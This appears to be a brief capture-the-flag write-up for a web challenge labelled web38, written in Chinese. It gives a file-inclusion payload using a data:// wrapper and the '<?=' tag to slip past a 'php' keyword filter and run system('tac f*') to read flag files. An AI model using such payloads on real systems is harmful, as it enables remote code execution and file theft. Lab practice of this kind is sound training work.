 # web38
![](vx_images/165513554507060.png)
还是文件包含,改一下php替换为=,也可以base64编码一下
```
?c=data://text/plain,<?=system("tac f*");?>
```
